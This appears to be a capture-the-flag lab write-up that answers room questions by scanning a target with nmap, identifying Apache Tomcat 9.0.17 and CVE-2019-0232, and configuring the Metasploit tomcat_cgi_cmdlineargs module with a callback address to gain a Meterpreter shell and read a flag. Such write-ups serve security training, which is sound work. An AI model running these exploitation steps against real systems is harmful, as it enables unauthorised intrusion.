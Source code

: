 # Ready, set, elf.

- What is the version number of the web server?

	- `nmap -sV <TARGET_IP>` (Remember, if it says "host seems down", use `-Pn`, look for what it means)
	- `9.0.17`

- What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)

	- `msfconsole`
	- `search tomcat 9`
	- It outputs `exploit/windows/http/tomcat_cgi_cmdlineargs  2019-04-10`. googling then...
	- `CVE-2019-0232`

- Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.

	  no answer needed

	- after search, It should outputs only one exploit, anyway use `use 0` if the output is only one, or the appropriate number
	- `set RHOSTS <TARGET_IP>`
	- `set RPORT 8080`
	- `set LHOST <YOUR_IP>`
	- `set targeturi /cgi-bin/elfwhacker.bat`
	- `run` or `exploit`

- What are the contents of flag1.txt?

	- `cat flag1.txt`
	- `thm{********_***_***_*****}`

- Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!

	  no answer needed